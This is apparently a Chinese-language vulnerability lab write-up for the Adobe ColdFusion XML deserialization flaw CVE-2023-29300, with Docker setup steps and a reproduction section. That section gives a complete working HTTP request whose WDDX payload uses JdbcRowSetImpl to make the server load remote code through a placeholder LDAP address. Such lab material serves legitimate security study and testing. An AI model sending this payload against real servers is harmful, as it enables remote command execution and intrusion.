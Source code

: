 # Adobe ColdFusion XML 反序列化命令执行漏洞（CVE-2023-29300）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## 漏洞环境

启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

我们使用 [Java Chains](https://github.com/vulhub/java-chains) 工具来进行漏洞复现，通过访问 [快速入手](https://java-chains.vulhub.org/zh/docs/guide) 来启动 Java Chains，并根据下面截图的操作生成基于`CommonsBeanutils1`利用链的 payload：

![](1.png)

然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：

![](2.png)
